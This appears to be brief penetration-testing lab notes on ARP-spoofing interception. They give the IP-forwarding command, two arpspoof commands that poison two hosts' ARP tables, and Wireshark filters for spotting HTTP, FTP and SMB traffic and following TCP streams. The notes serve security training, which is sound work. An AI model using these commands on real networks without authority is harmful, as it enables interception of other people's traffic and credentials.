


arpspoof: sniff traffic between hosts
Enable Ip Forwarding on the Attacker System
echo 1 > /proc/sys/net/ipv4/ip_forward
1.
Capture/Sniff traffic between 172.16.5.5 and 172.16.5.1Send the following commands in two different terminals. Arpspoof will keep sending ARP packets to our targets in order to poison the
ARP table of both hosts.
arpspoof -i tap0 -t 172.16.5.5 -r 172.16.5.1
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.5
2.
We can now analyze the traffic from Wireshark Statistics → Protocol Hierarchy, to understand the type of traffic exchanged between the hosts
 ◇ We can filter by:
http.request.method == "GET"
http.request.method == "POST"
ftp
smb
smb.file #for file transmitted fia SMB
If we have found an interesting request on Wireshark:
Right click on the packet → Follow TCP Stream
 commands issued by the user are in red server responses are in blue